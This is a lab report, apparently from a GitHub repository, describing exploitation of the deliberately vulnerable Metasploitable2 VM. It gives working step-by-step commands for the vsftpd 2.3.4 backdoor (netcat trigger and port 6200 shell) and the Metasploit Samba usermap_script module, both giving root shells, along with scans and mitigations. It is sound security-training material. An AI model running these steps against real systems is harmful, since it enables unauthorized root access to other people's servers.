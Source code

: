 # Lab Report: Metasploitable2 — vsftpd & Samba Exploitation

---

## Table of Contents
- [Objective](#objective)
- [Lab Setup](#lab-setup)
- [Methodology](#methodology)
- [Reconnaissance](#reconnaissance)
- [Exploitation](#exploitation)
  - [vsftpd 2.3.4 Backdoor](#vsftpd-234-backdoor)
  - [Samba 3.0.20 Exploit](#samba-3020-exploit)
- [Post-Exploitation](#post-exploitation)
- [Mitigations & Recommendations](#mitigations--recommendations)
- [References](#references)

---

## 🎯 Objective

Practice real-world penetration testing by exploiting known vulnerabilities in Metasploitable2, focusing on `vsftpd 2.3.4` and `Samba 3.0.20`.

---

## 🧩 Lab Setup

- **Target:** Metasploitable2 VM  
- **Attacker:** Kali Linux VM  
- **Network:** NAT configuration for full connectivity  
- **Tools:** Nmap, Metasploit, Netcat, smbclient, searchsploit

---

## 📌 Methodology

This lab follows a streamlined version of the **Penetration Testing Execution Standard (PTES)**:

- **Reconnaissance:** Identify live hosts and running services.
- **Enumeration:** Gather detailed version information to pinpoint vulnerabilities.
- **Exploitation:** Use known CVEs and exploits to gain unauthorized access.
- **Post-Exploitation:** Confirm level of access, demonstrate impact, and outline possible next steps.
- **Reporting:** Document proof-of-concept, supporting evidence, and practical remediation advice.

---

## ⚔️ ATT&CK Mapping

Relevant MITRE ATT&CK techniques demonstrated in this lab:

- **T1190 - Exploit Public-Facing Application:** vsftpd 2.3.4 backdoor and Samba 3.0.20 username map script RCE.
- **T1059 - Command and Scripting Interpreter:** Interactive shell access via Netcat and Metasploit.
- **T1078 - Valid Accounts (Conceptual):** Using crafted credentials or misconfigurations to trigger exploitation.

---

## 🔍 Reconnaissance

Metasploitable2 is an intentionally vulnerable Linux VM used to practice common exploitation techniques.

Download links:  
- [Rapid7 Metasploitable2](https://information.rapid7.com/metasploitable-download.html)  
- [SourceForge](https://sourceforge.net/projects/metasploitable/)

---

### 🔎 Nmap Scan

I ran a version scan on common ports:

```bash
nmap -sV -p 21,139,445 <target-ip>
````

**Nmap Results:**

| Port | State | Service      | Version      |
| ---- | ----- | ------------ | ------------ |
| 21   | open  | ftp          | vsftpd 2.3.4 |
| 139  | open  | netbios-ssn  | Samba 3.0.20 |
| 445  | open  | microsoft-ds | Samba 3.0.20 |

![Nmap Scan](/screenshots/metasploitable2/nmap_version_port_scan.png)
*Figure 1: Nmap confirms vsftpd 2.3.4 and Samba 3.0.20 open.*

---

## ⚡ Exploitation

---

### 🗝️ vsftpd 2.3.4 Backdoor Exploit

**About:**
vsftpd 2.3.4 has a malicious backdoor (CVE-2011-2523). Logging in with a username that ends in `:)` opens a hidden shell on port `6200`.

---

**Steps Taken:**

1️⃣ Connect to FTP port:

```bash
nc <target-ip> 21
```

* **Username:** `exploitingYou:)`
* **Password:** `youvebeenhacked`

![vsftpd Trigger](/screenshots/metasploitable2/nc_user_pass_exploit.png)
*Figure 2: Sending special username to trigger the backdoor.*

---

2️⃣ Connect to the hidden backdoor shell on port 6200:

```bash
nc -v <target-ip> 6200
```

3️⃣ Verify root access:

```bash
id
whoami
ls
```

![vsftpd Root Shell](/screenshots/metasploitable2/nc_root_access.png)
*Figure 3: Confirmed root access via backdoor.*

---

### 🗝️ Samba 3.0.20 Exploit (Username Map Script)

**About:**
Samba 3.0.20 has a remote code execution vulnerability (Username Map Script) which allows shell execution.

---

**Steps Taken:**

1️⃣ Started Metasploit:

```bash
msfconsole
```

2️⃣ Ran an SMB version scan to confirm the target version:

```bash
use auxiliary/scanner/smb/smb_version
set RHOSTS <target-ip>
run
```

![SMB Version Scan](/screenshots/metasploitable2/msf_smb_version.png)
*Figure 4: Scanner confirms Samba 3.0.20.*

---

3️⃣ Found an exploit using `searchsploit`:

```bash
searchsploit samba 3.0.20
```

Identified `Username Map Script` exploit.

![Searchsploit Result](/screenshots/metasploitable2/searchsploit_samba_version.png)
*Figure 5: `searchsploit` output.*

---

4️⃣ Loaded the exploit module:

```bash
use exploit/multi/samba/usermap_script
set RHOSTS <target-ip>
exploit
```

5️⃣ Verified shell access:

```bash
whoami
ls
```

![Samba Exploit Shell](/screenshots/metasploitable2/msf_usermap_script_root.png)
*Figure 6: Shell confirmed with root privileges.*

---

## 🔓 Post-Exploitation

After gaining root-level shells on both services:

* Verified privileges (`whoami`, `id`).
* Listed files and directories.
* Confirmed ability to run arbitrary commands.
* Would pivot to enumerate users, check `/etc/passwd`, search for sensitive configs (`*.conf`), and test lateral movement if this were a real engagement.

---

## ✅ Mitigations & Recommendations

* **vsftpd:** Remove version 2.3.4 and install the latest trusted release.
* **Samba:** Patch to a secure version; disable unnecessary Samba shares.
* Enforce least privilege for services.
* Use firewalls to limit service exposure.
* Monitor network traffic for unusual ports and connections.

---

## 📚 References

* [Metasploitable2](https://sourceforge.net/projects/metasploitable/)
* [vsftpd 2.3.4 Backdoor (CVE-2011-2523)](https://www.cvedetails.com/cve/CVE-2011-2523/)
* [Metasploit Samba Exploit](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/)

---

**End of Report**

